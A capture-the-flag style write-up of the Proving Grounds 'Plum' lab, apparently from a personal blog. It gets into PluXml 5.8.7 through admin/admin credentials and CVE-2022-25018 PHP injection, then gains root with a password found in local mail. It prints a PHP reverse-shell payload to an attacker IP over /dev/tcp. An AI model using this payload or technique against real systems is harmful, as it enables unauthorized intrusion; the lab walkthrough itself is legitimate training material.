

# Proving Grounds Plum WriteUp


plum  intermediate 10

## PortScan

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/2-codo]
└─$ sudo nmap -n -r --min-rate=3500 -F -sSV  192.168.196.28
[sudo] xavier 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-04 22:17 CST
Nmap scan report for 192.168.196.28
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5&#43;deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds
```


## InitAccess
pluxml

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/2-codo]
└─$ searchsploit pluxml 

┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/2-codo]
└─$ searchsploit -x php/webapps/18828.txt
```



pluxml 版本5.8.7，searchsploit无漏洞。

弱口令admin，admin进入后台。

找了下网上，5.8.7有个后台修改静态页RCE，https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf

描述如下：

```markdown
## 1 Application
https://github.com/pluxml/PluXml

## 2 Introductory Remarks
There is already an issue regarding a different RCE vulnerability (https://github.com/pluxml/PluXml/issues/321). In contrast to our vulnerability,said RCE only works when using the config file parameter with admin privileges,which is not possible as a moderator.

## 3 Description of the Vulnerability
In the PluXml PHP blogging platform (v5.8.7), a user with the manager role can inject arbitrary PHP code that is executed on the server. As a consequence, remote code execution (RCE) becomes possible, as illustrated in this unlisted (non-public) youtube video: https://youtu.be/Gbe2UNCB0tY.

## 4 Steps to Reproduce the Exploit
1. Login with a manager account.
2. In the Administration menu, select static pages and edit one of the pages.
3. Insert PHP code with starting and closing tags &lt;?php CODE ?&gt;.
4. Save the changes and open the stored page.

## 5 Technical Description of the Vulnerability
While the administrator role has the permission to edit PHP templates and, thus, can always execute arbitrary code, the manager role has no such privileges. Indeed, a manager can only edit so-called static - purely HTML-written- pages. However, in the file core/admin/statique.php and in the file core/admin/lib/class.plx.admin.php (in the function editStatique) no proper input sanitisation is done to filter PHP-opening- and closing-tags (&lt;?php and ?&gt;). As a consequence, the injected PHP code becomes executed on the server-side, even though it is integrated with HTML content. Additionally,note that an XSS-attack is also possible for a manager (proof of concept: by integrating &lt;script&gt;alert(/xss/)&lt;/script&gt;) and hard to filter.
```


写入后成功输出。

尝试写webshell，发现无法动态解析执行，可能是一次性的，直接写shell。

```php
&lt;?php echo &#39;123&lt;br&gt;&#39;; system(&#34;bash -c &#39;bash -i &gt;&amp; /dev/tcp/192.168.45.246/9001 0&gt;&amp;1&#39;&#34;);?&gt;
```

再去加载页面，成功收到反弹shell

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/2-codo]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.246] from (UNKNOWN) [192.168.196.28] 52096
bash: cannot set terminal process group (784): Inappropriate ioctl for device
bash: no job control in this shell
www-data@plum:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@plum:/var/www/html$ 
www-data@plum:/tmp$ cat /var/www/local.txt
cat /var/www/local.txt
3eeae195eb57983b4e679071f3098211

```

## PrivE


```shell
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/www/html/data/statiques/001.static-1.php
/var/www/html/data/configuration/statiques.xml
/var/mail/www-data
/var/log/journal/c71e29ed9c494834b5aab51454fe3ee0/system.journal
/var/log/messages
/var/log/btmp
/var/log/syslog
/var/log/kern.log
/var/log/daemon.log
/var/log/auth.log
/tmp/GCONV_PATH=./.pkexec
/tmp/passwd.bak
/tmp/.pkexec/gconv-modules
/tmp/1.txt
```

这里卡了很久，对/var/mail/www-data这个有过怀疑，但是一直用head，tail，grep pass的形式看得，没有打开看，还是有想偷懒的心。

```shell
www-data@plum:/tmp$ cat /var/mail/www-data
cat /var/mail/www-data
From root@localhost Fri Aug 25 06:31:47 2023
Return-path: &lt;root@localhost&gt;
Envelope-to: www-data@localhost
Delivery-date: Fri, 25 Aug 2023 06:31:47 -0400
Received: from root by localhost with local (Exim 4.94.2)
        (envelope-from &lt;root@localhost&gt;)
        id 1qZU6V-0000El-Pw
        for www-data@localhost; Fri, 25 Aug 2023 06:31:47 -0400
To: www-data@localhost
From: root@localhost
Subject: URGENT - DDOS ATTACK&#34;
Reply-to: root@localhost
Message-Id: &lt;E1qZU6V-0000El-Pw@localhost&gt;
Date: Fri, 25 Aug 2023 06:31:47 -0400

We are under attack. We&#39;ve been targeted by an extremely complicated and sophisicated DDOS attack. I trust your skills. Please save us from this. Here are the credentials for the root user:  
root:6s8kaZZNaZZYBMfh2YEW
Thanks,
Administrator

From MAILER-DAEMON Mon Dec 04 10:02:09 2023
Return-path: &lt;&gt;
Envelope-to: www-data@localhost
Delivery-date: Mon, 04 Dec 2023 10:02:09 -0500
Received: from Debian-exim by localhost with local (Exim 4.94.2)
        id 1rAASX-0001gi-JO
        for www-data@localhost; Mon, 04 Dec 2023 10:02:09 -0500
X-Failed-Recipients: debian@localhost
Auto-Submitted: auto-replied
From: Mail Delivery System &lt;Mailer-Daemon@localhost&gt;
To: www-data@localhost
References: &lt;E1rAASX-0001fo-IY@localhost&gt;
Content-Type: multipart/report; report-type=delivery-status; boundary=1701702129-eximdsn-2095242606
MIME-Version: 1.0
Subject: Mail delivery failed: returning message to sender
Message-Id: &lt;E1rAASX-0001gi-JO@localhost&gt;
Date: Mon, 04 Dec 2023 10:02:09 -0500

--1701702129-eximdsn-2095242606
Content-type: text/plain; charset=us-ascii

This message was created automatically by mail delivery software.

A message that you sent could not be delivered to one or more of its
recipients. This is a permanent error. The following address(es) failed:

  debian@localhost
    (generated from root@localhost)
    Unrouteable address

--1701702129-eximdsn-2095242606
Content-type: message/delivery-status

Reporting-MTA: dns; localhost

Action: failed
Final-Recipient: rfc822;root@localhost
Status: 5.0.0

--1701702129-eximdsn-2095242606
Content-type: message/rfc822

Return-path: &lt;www-data@localhost&gt;
Received: from www-data by localhost with local (Exim 4.94.2)
        (envelope-from &lt;www-data@localhost&gt;)
        id 1rAASX-0001fo-IY
        for root@localhost; Mon, 04 Dec 2023 10:02:09 -0500
To: root@localhost
Auto-Submitted: auto-generated
Subject: *** SECURITY information for localhost ***
From: www-data &lt;www-data@localhost&gt;
Message-Id: &lt;E1rAASX-0001fo-IY@localhost&gt;
Date: Mon, 04 Dec 2023 10:02:09 -0500

localhost : Dec  4 15:02:09 : www-data : 1 incorrect password attempt ; PWD=/tmp ; USER=root ; COMMAND=list


--1701702129-eximdsn-2095242606--

From MAILER-DAEMON Mon Dec 04 10:06:20 2023
Return-path: &lt;&gt;
Envelope-to: www-data@localhost
Delivery-date: Mon, 04 Dec 2023 10:06:20 -0500
Received: from Debian-exim by localhost with local (Exim 4.94.2)
        id 1rAAWa-0004Mp-Vl
        for www-data@localhost; Mon, 04 Dec 2023 10:06:20 -0500
X-Failed-Recipients: debian@localhost
Auto-Submitted: auto-replied
From: Mail Delivery System &lt;Mailer-Daemon@localhost&gt;
To: www-data@localhost
References: &lt;E1rAAWa-0004Mm-VK@localhost&gt;
Content-Type: multipart/report; report-type=delivery-status; boundary=1701702380-eximdsn-199798543
MIME-Version: 1.0
Subject: Mail delivery failed: returning message to sender
Message-Id: &lt;E1rAAWa-0004Mp-Vl@localhost&gt;
Date: Mon, 04 Dec 2023 10:06:20 -0500

--1701702380-eximdsn-199798543
Content-type: text/plain; charset=us-ascii

This message was created automatically by mail delivery software.

A message that you sent could not be delivered to one or more of its
recipients. This is a permanent error. The following address(es) failed:

  debian@localhost
    (generated from root@localhost)
    Unrouteable address

--1701702380-eximdsn-199798543
Content-type: message/delivery-status

Reporting-MTA: dns; localhost

Action: failed
Final-Recipient: rfc822;root@localhost
Status: 5.0.0

--1701702380-eximdsn-199798543
Content-type: message/rfc822

Return-path: &lt;www-data@localhost&gt;
Received: from www-data by localhost with local (Exim 4.94.2)
        (envelope-from &lt;www-data@localhost&gt;)
        id 1rAAWa-0004Mm-VK
        for root@localhost; Mon, 04 Dec 2023 10:06:20 -0500
To: root@localhost
Auto-Submitted: auto-generated
Subject: *** SECURITY information for localhost ***
From: www-data &lt;www-data@localhost&gt;
Message-Id: &lt;E1rAAWa-0004Mm-VK@localhost&gt;
Date: Mon, 04 Dec 2023 10:06:20 -0500

localhost : Dec  4 15:06:20 : www-data : a password is required ; PWD=/tmp ; USER=root ; COMMAND=list


--1701702380-eximdsn-199798543--

From MAILER-DAEMON Mon Dec 04 10:31:07 2023
Return-path: &lt;&gt;
Envelope-to: www-data@localhost
Delivery-date: Mon, 04 Dec 2023 10:31:07 -0500
Received: from Debian-exim by localhost with local (Exim 4.94.2)
        id 1rAAuZ-0004Px-Lf
        for www-data@localhost; Mon, 04 Dec 2023 10:31:07 -0500
X-Failed-Recipients: debian@localhost
Auto-Submitted: auto-replied
From: Mail Delivery System &lt;Mailer-Daemon@localhost&gt;
To: www-data@localhost
References: &lt;E1rAAuZ-0004Pu-LF@localhost&gt;
Content-Type: multipart/report; report-type=delivery-status; boundary=1701703867-eximdsn-1899843490
MIME-Version: 1.0
Subject: Mail delivery failed: returning message to sender
Message-Id: &lt;E1rAAuZ-0004Px-Lf@localhost&gt;
Date: Mon, 04 Dec 2023 10:31:07 -0500

--1701703867-eximdsn-1899843490
Content-type: text/plain; charset=us-ascii

This message was created automatically by mail delivery software.

A message that you sent could not be delivered to one or more of its
recipients. This is a permanent error. The following address(es) failed:

  debian@localhost
    (generated from root@localhost)
    Unrouteable address

--1701703867-eximdsn-1899843490
Content-type: message/delivery-status

Reporting-MTA: dns; localhost

Action: failed
Final-Recipient: rfc822;root@localhost
Status: 5.0.0

--1701703867-eximdsn-1899843490
Content-type: message/rfc822

Return-path: &lt;www-data@localhost&gt;
Received: from www-data by localhost with local (Exim 4.94.2)
        (envelope-from &lt;www-data@localhost&gt;)
        id 1rAAuZ-0004Pu-LF
        for root@localhost; Mon, 04 Dec 2023 10:31:07 -0500
To: root@localhost
Auto-Submitted: auto-generated
Subject: *** SECURITY information for localhost ***
From: www-data &lt;www-data@localhost&gt;
Message-Id: &lt;E1rAAuZ-0004Pu-LF@localhost&gt;
Date: Mon, 04 Dec 2023 10:31:07 -0500

localhost : Dec  4 15:31:07 : www-data : a password is required ; PWD=/var/mail ; USER=root ; COMMAND=list


--1701703867-eximdsn-1899843490--

From MAILER-DAEMON Mon Dec 04 10:47:49 2023
Return-path: &lt;&gt;
Envelope-to: www-data@localhost
Delivery-date: Mon, 04 Dec 2023 10:47:49 -0500
Received: from Debian-exim by localhost with local (Exim 4.94.2)
        id 1rABAj-0004RS-6L
        for www-data@localhost; Mon, 04 Dec 2023 10:47:49 -0500
X-Failed-Recipients: debian@localhost
Auto-Submitted: auto-replied
From: Mail Delivery System &lt;Mailer-Daemon@localhost&gt;
To: www-data@localhost
References: &lt;E1rABAj-0004RP-5y@localhost&gt;
Content-Type: multipart/report; report-type=delivery-status; boundary=1701704869-eximdsn-523599222
MIME-Version: 1.0
Subject: Mail delivery failed: returning message to sender
Message-Id: &lt;E1rABAj-0004RS-6L@localhost&gt;
Date: Mon, 04 Dec 2023 10:47:49 -0500

--1701704869-eximdsn-523599222
Content-type: text/plain; charset=us-ascii

This message was created automatically by mail delivery software.

A message that you sent could not be delivered to one or more of its
recipients. This is a permanent error. The following address(es) failed:

  debian@localhost
    (generated from root@localhost)
    Unrouteable address

--1701704869-eximdsn-523599222
Content-type: message/delivery-status

Reporting-MTA: dns; localhost

Action: failed
Final-Recipient: rfc822;root@localhost
Status: 5.0.0

--1701704869-eximdsn-523599222
Content-type: message/rfc822

Return-path: &lt;www-data@localhost&gt;
Received: from www-data by localhost with local (Exim 4.94.2)
        (envelope-from &lt;www-data@localhost&gt;)
        id 1rABAj-0004RP-5y
        for root@localhost; Mon, 04 Dec 2023 10:47:49 -0500
To: root@localhost
Auto-Submitted: auto-generated
Subject: *** SECURITY information for localhost ***
From: www-data &lt;www-data@localhost&gt;
Message-Id: &lt;E1rABAj-0004RP-5y@localhost&gt;
Date: Mon, 04 Dec 2023 10:47:49 -0500

localhost : Dec  4 15:47:49 : www-data : a password is required ; PWD=/var/mail ; USER=root ; COMMAND=list


--1701704869-eximdsn-523599222--

From MAILER-DAEMON Mon Dec 04 10:55:26 2023
Return-path: &lt;&gt;
Envelope-to: www-data@localhost
Delivery-date: Mon, 04 Dec 2023 10:55:26 -0500
Received: from Debian-exim by localhost with local (Exim 4.94.2)
        id 1rABI6-0004Rq-Tm
        for www-data@localhost; Mon, 04 Dec 2023 10:55:26 -0500
X-Failed-Recipients: debian@localhost
Auto-Submitted: auto-replied
From: Mail Delivery System &lt;Mailer-Daemon@localhost&gt;
To: www-data@localhost
References: &lt;E1rABI6-0004Rn-TK@localhost&gt;
Content-Type: multipart/report; report-type=delivery-status; boundary=1701705326-eximdsn-1486237684
MIME-Version: 1.0
Subject: Mail delivery failed: returning message to sender
Message-Id: &lt;E1rABI6-0004Rq-Tm@localhost&gt;
Date: Mon, 04 Dec 2023 10:55:26 -0500

--1701705326-eximdsn-1486237684
Content-type: text/plain; charset=us-ascii

This message was created automatically by mail delivery software.

A message that you sent could not be delivered to one or more of its
recipients. This is a permanent error. The following address(es) failed:

  debian@localhost
    (generated from root@localhost)
    Unrouteable address

--1701705326-eximdsn-1486237684
Content-type: message/delivery-status

Reporting-MTA: dns; localhost

Action: failed
Final-Recipient: rfc822;root@localhost
Status: 5.0.0

--1701705326-eximdsn-1486237684
Content-type: message/rfc822

Return-path: &lt;www-data@localhost&gt;
Received: from www-data by localhost with local (Exim 4.94.2)
        (envelope-from &lt;www-data@localhost&gt;)
        id 1rABI6-0004Rn-TK
        for root@localhost; Mon, 04 Dec 2023 10:55:26 -0500
To: root@localhost
Auto-Submitted: auto-generated
Subject: *** SECURITY information for localhost ***
From: www-data &lt;www-data@localhost&gt;
Message-Id: &lt;E1rABI6-0004Rn-TK@localhost&gt;
Date: Mon, 04 Dec 2023 10:55:26 -0500

localhost : Dec  4 15:55:26 : www-data : a password is required ; PWD=/home ; USER=root ; COMMAND=list


--1701705326-eximdsn-1486237684--

www-data@plum:/tmp$ 
```


```shell
www-data@plum:/tmp$ su root
su root
Password: 6s8kaZZNaZZYBMfh2YEW

id
uid=0(root) gid=0(root) groups=0(root)
```


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/proving-grounds-plum/  

